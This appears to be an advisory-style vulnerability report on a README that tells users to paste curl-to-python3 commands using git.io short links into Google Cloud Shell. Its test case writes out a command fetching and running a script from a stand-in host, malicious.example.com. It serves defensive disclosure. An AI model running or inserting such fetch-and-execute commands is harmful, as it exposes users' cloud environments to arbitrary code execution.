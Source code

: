- Vulnerability name: `git.io` URL Redirection leading to Arbitrary Code Execution
- Description:
    1. The README.md file provides commands to users for creating service accounts. These commands are intended to be copied and pasted into Google Cloud Shell for execution.
    2. The commands utilize `curl` to download Python scripts from `git.io` URLs and execute them directly using `python3 <(...)`.
    3. `git.io` is a URL shortening service. The project uses these short URLs in the README.md to point to the Python scripts hosted in the repository.
    4. An attacker could potentially compromise the `git.io` URLs. If successful, the attacker can redirect these URLs to point to a malicious Python script hosted on an attacker-controlled server.
    5. When a user follows the instructions in the README.md and copies and pastes the command into their Google Cloud Shell, `curl` will download the malicious script from the attacker's server instead of the intended script from the repository.
    6. Because the command uses `python3 <(...)`, the downloaded malicious script will be executed directly within the user's Google Cloud Shell environment without any prior review or warning.
- Impact:
    Critical. Successful exploitation of this vulnerability allows an attacker to achieve arbitrary code execution within the victim's Google Cloud Shell environment. This can lead to severe consequences, including:
    - Full control of the victim's Google Cloud Shell session.
    - Unauthorized access to sensitive data and resources within the Google Cloud Shell environment and potentially connected Google Cloud projects.
    - Exfiltration of sensitive information, such as credentials, API keys, and конфиденциальные data.
    - Modification or deletion of critical cloud resources.
    - Deployment of malware or backdoors within the victim's cloud environment.
    - Using the compromised Cloud Shell as a launchpad for further attacks on the victim's infrastructure.
- Vulnerability rank: Critical
- Currently implemented mitigations:
    None. The project directly uses `git.io` URLs in the README.md without any mechanisms to verify the integrity or authenticity of the scripts downloaded through these URLs. There are no warnings to the users about the risks of executing scripts from untrusted sources.
- Missing mitigations:
    - Replace `git.io` URLs with direct, full URLs pointing to the raw Python scripts within the GitHub repository itself. This eliminates the dependency on an external URL shortening service and the associated redirection risk. For example, instead of `https://git.io/gwmme-create-service-account`, use the raw GitHub URL to the `gwmme_create_service_account.py` file.
    - Implement Subresource Integrity (SRI) or similar integrity verification mechanisms. If direct URLs are not feasible and URL shortening is still desired, consider using a more secure URL shortening service that offers features like SRI. Alternatively, provide checksums (e.g., SHA256 hashes) of the scripts in the README.md and instruct users to manually verify the checksum of the downloaded script before execution.
    - Add a clear and prominent warning in the README.md about the security risks associated with copying and pasting commands from the internet, especially those involving direct script execution. Advise users to carefully review the content of the script before executing it in their Cloud Shell. Encourage users to download the script first, review it locally, and then execute it if they trust its contents.
- Preconditions:
    - The attacker must successfully compromise or hijack the specified `git.io` URLs ( `https://git.io/gwmme-create-service-account`, `https://git.io/gwm-create-service-account`, `https://git.io/password-sync-create-service-account`).
    - A victim must follow the instructions in the README.md and copy and paste one of the provided commands into their Google Cloud Shell.
    - The victim must execute the pasted command in their Google Cloud Shell, leading to the download and execution of the potentially malicious script.
- Source code analysis:
    - File: `/code/README.md`
        - The README.md file contains instructions for users to create service accounts for different Google Workspace migration tools.
        - In the "Usage" section, for each tool (GWMME, GWM, Password Sync), the README provides a command that users are instructed to copy and paste into their Cloud Shell.
        - For example, for GWMME, the command is:
          ```
          python3 <(curl -s -S -L https://git.io/gwmme-create-service-account)
          ```
        - This command uses `curl` to download the content from the `https://git.io/gwmme-create-service-account` URL. The `-s` flag makes `curl` silent, `-S` shows an error message if it fails, and `-L` makes it follow redirects.
        - The downloaded content is then passed as input to the `python3` interpreter using process substitution `<(...)`. This means the downloaded content is treated as a Python script and executed directly.
        - The URLs `https://git.io/gwmme-create-service-account`, `https://git.io/gwm-create-service-account`, and `https://git.io/password-sync-create-service-account` are all `git.io` short URLs.
        - `git.io` is a public URL shortening service provided by GitHub. While convenient, `git.io` URLs can be a security risk because:
            - **Redirection Risk:** If an attacker gains control over the `git.io` URL, they can change the redirection target to a malicious script without the project owners' knowledge or consent.
            - **Opacity:** Users cannot easily verify the destination of a `git.io` URL before accessing it, making it difficult to detect malicious redirection.
        - The scripts `gwmme_create_service_account.py`, `gwm_create_service_account.py`, and `password_sync_create_service_account.py` are hosted in the repository and are intended to be downloaded and executed. However, the README uses `git.io` short URLs instead of direct links to these scripts.
- Security test case:
    1. **Identify the target `git.io` URLs:** Note the `git.io` URLs provided in the README.md:
        - `https://git.io/gwmme-create-service-account`
        - `https://git.io/gwm-create-service-account`
        - `https://git.io/password-sync-create-service-account`
    2. **Determine the original destination URLs:** Use a URL expansion service or `curl -v` to find the actual URLs these `git.io` links currently redirect to. For example:
       ```bash
       curl -v https://git.io/gwmme-create-service-account 2>&1 | grep Location
       ```
       This will reveal the current target URL, which should be the raw content URL of `gwmme_create_service_account.py` in the GitHub repository.
    3. **Set up a malicious script and server:** Create a simple Python script (e.g., `malicious_script.py`) that demonstrates code execution, such as printing a warning message or creating a file in the `/tmp` directory in Cloud Shell. Host this script on a publicly accessible web server (you can use a simple HTTP server for testing).
    4. **Simulate `git.io` compromise (for testing):**  Since actually compromising `git.io` is likely not feasible, for testing purposes, we will simulate the redirection.  Instead of trying to change the `git.io` redirection, we will modify the command we copy from the README to point to our malicious script directly. Replace the `git.io` URL in the command with the URL of your malicious script hosted on your server. For example, if your malicious script is hosted at `http://malicious.example.com/malicious_script.py`, the modified command would be:
       ```bash
       python3 <(curl -s -S -L http://malicious.example.com/malicious_script.py)
       ```
    5. **Victim execution:**
        - Open Google Cloud Shell.
        - Copy the **modified command** from step 4 (or the original command if you were able to actually compromise the `git.io` URL) and paste it into the Cloud Shell prompt.
        - Press Enter to execute the command.
    6. **Verify malicious code execution:** Observe the output in the Cloud Shell. If the vulnerability is successfully exploited, you should see the output from your `malicious_script.py` (e.g., the warning message you configured or the creation of the test file). This confirms that arbitrary code execution was achieved by redirecting the user from the seemingly harmless command in the README.md to a malicious script.

By following these steps, you can demonstrate the vulnerability and confirm that an attacker could indeed achieve arbitrary code execution by compromising the `git.io` URLs used in the project's README.md.